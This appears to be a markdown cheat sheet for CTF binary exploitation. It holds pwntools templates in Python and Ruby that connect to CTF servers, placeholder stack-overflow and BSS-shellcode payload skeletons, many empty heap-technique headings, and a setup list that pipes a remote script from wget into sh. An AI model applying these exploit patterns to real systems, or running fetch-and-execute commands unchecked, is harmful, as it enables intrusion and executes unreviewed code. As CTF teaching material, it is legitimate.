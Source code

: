 # Native Application Exploitation aka Binary Exploitation aka Pwning
Command Line cheat sheet for binary exploitation

* [Templates](#templates)
* MacOS
* Linux
	* Stack overflow
	* Format string
	* Heap
	* FILE
	* Integer overflow
	* Race conditions
	* Kernel
	* ARM
* Windows
	* Stack
	* Kernel
* [Browser](browser.md)
* [Misc](#misc)

<h2 id="templates">Exploit template</h2>

<h4>Python</h4>
	
	#!/usr/bin/env python
	
	from pwn import *

	BINARY = './library_in_c'
	LIBC = './libc.so.6'
	HOST = 'shell.actf.co'
	PORT = 20201
	
	elf = ELF(BINARY)
	libc = ELF('./libc.so.6')

	context.terminal = ['tmux', 'split-w']
	
	printf = elf.got['printf']		

	def get_base_address(proc):
		return int(open("/proc/{}/maps".format(proc.pid), 'rb').readlines()[0].split('-')[0], 16)

	def debug(breakpoints):
		script = ""
		for bp in breakpoints:
			script += "b *0x%x\n"%(PIE+bp)
		gdb.attach(process(BINARY), gdbscript=script)

	def start():
	    if not args.REMOTE:
		print "LOCAL PROCESS"
		return process(BINARY, env={"LD_PRELOAD":LIBC))
	    else:
		print "REMOTE PROCESS"
		return remote(HOST, PORT)


	p = start()
	if args.GDB:
	    gdb.attach(p, 'b main')

	p.interactive()







<h4>Ruby</h4>
	
	gem install pwntools
	
	require 'pwn'
	
	context.arch = 'i386'
	context.log_level = :debug
	z = Sock.new 'chall.pwnable.tw', 10000

	z.recvuntil "Let's start the CTF:"
	z.send p64(0x1337).rjust(0x18, 'A')
	

	z.interact

	


<h2 id="linux">Linux</h2>

<h3 id="stack">Stack Exploitation</h3>
	
<h4>Stack overflow</h4>

	buffer = 'A' * 1337
	rip = p64(0x1337) # Address of shellcode
	payload = "SHELLCODE"

	exploit = buffer + rip
	

<h4>Shellcode in bss section</h4>

	buffer = 'A' * 1337
	gets = elf.plt['gets']
	bss = elf.bss(0x20) # BSS at 0x20 bytes offset
	pop_rdi = p64(0x1337)

	payload = buffer + pop_rdi + bss + gets + bss

<h4>Ret2libc</h4>

<h4>ROP syscall</h4>
		
<h4>ROP</h4>

<h3>Format String</h3>

<h3>Heap</h3>

<h4>Off by one</h4>

<h4>Chunk extension/Overlapping</h4>

<h4>Unlink</h4>

<h4>Use After Free</h4>

<h4>Fastbin attack</h4>

<h4>Unsorted bin attack</h4>

<h4>Large bin attack</h4>

<h4>Tcache attacks</h4>

<h4>House of Einherjar</h4>

<h4>House of Force</h4>

<h4>House of Lore</h4>

<h4>House of Orange</h4>

<h4>House of Rabbit</h4>

<h4>House of Roman</h4>

<h3>FILE</h3>

<h3>Integers</h3>

<h3>Race Conditions</h3>

<h3>Kernel</h3>

<h2 id="misc">Misc</h2>

	# Debug Macho binaries (by mgrube)
	codesign --remove-signature app.app
	xattr -r -d app.app

	# Quick pwn setup

	apt update
	sudo apt install wget
	apt install gdb
	wget -q -O- https://github.com/hugsy/gef/raw/master/scripts/gef.sh | sh
	apt install python
	apt install vim
	apt install python-pip
	apt install wget
	apt install net-tools
	apt install ruby
	apt install tmux
	pip install capstone
	pip install pwntools
	pip install ropgadget
	gem install one_gadget

	# gdb LD_PRELOAD 

	set exec-wrapper env 'LD_PRELOAD=./libc.so.6'
	set env LD_PRELOAD ./libc.so.6
